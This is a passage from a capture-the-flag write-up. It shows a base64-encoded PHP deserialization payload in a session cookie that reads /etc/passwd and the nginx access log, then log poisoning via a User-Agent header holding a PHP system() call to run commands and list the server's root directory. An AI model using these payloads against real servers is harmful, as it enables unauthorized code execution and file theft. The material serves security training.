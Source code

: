 <div style="width: 65%; height: 65%">

  ![](images/burpsuite_passwd.png)
  
</div>  

As you can see from the previous screen, we are able to retrieve the contente of the `passwd` file...    
the problem is that we still have no clue on the flag's location.  
We know that the webserver is nginx though so we can leverage the nginx log to see if we can find something useful.  
The new payload is 
```console
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64                                                                                                                                       ─╯
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNz
LmxvZyI7fQo=
```  
Then again we submit the request via burpsuite and we note that the User-Agent header  
is being logged, we can leverage this by changing its value to a malicious PHP payload and send it to the server  
for this scope we will use the php `system()` function that enable us to execute os-level command on the server:   
```php
<?php system('ls /'); ?>
```  
The new request will then be:  
```console
GET / HTTP/1.1
Host: 138.68.156.57:32327
User-Agent: <?php system('ls /');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```  
This will return a list of directories and imediatly we note that there is a `flag_Sz1aU` dir:  
```console
dev
entrypoint.sh
etc
flag_Sz1aU
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```  
